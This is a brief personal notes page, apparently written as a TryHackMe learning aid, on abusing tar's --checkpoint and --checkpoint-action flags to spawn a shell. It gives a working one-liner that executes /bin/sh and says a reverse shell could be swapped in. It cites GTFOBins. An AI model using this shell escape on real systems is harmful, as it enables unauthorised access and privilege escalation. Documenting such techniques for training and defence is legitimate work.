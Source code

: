 # Exploiting “tar”

Tar can be configured to execute an action for every N files processed using the --checkpoint and --checkpoint-action flags. So this will get us a shell:

```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This works with any input/output file (not just /dev/null), and with any executable binary (such as a reverse shell).

## References

* [TryHackMe - Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins: tar](https://gtfobins.github.io/gtfobins/tar/)

- - - -

👤 Nathan Acks
📅 November 2, 2021
